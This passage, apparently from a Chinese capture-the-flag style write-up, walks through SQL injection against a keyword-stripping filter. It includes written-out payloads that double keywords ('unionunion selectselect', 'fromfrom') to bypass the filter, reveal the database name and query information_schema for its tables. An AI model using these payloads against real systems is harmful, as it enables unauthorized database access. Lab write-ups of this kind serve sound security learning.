 发现过滤成功了，但是并没有获取我想要的数据，而道理应该对了，而且已经执行了，猜测是不是#好屏蔽了什么？试试

```sql
1"  unionunion  selectselect  database() "
```

<img src="../images/sql_inject/simple_sql_inject_4.png" />

发现还是不对，没有执行。

```sql
-- 尝试下面的语句，发现没有报错，说明" 可能被拦截或者其他问题
1" 
-- 报错，说明注入成功，可以再尝试 1' or '1'='1
1'  =
-- 成功
1'  unionunion  selectselect  database()' 
```

<img src="../images/sql_inject/simple_sql_inject_5.png" />

这样就好了，发现数据库是web1，可以查询一下有哪些表，尝试着根据数据库名字来查，发现老是出错，后面简化

```sql
1' unionunion  selectselect  table_name fromfrom  information_schema.tables wherewhere  table_schemtable_schemaa='web1
```

<img src="../images/sql_inject/simple_sql_inject_6.png" />
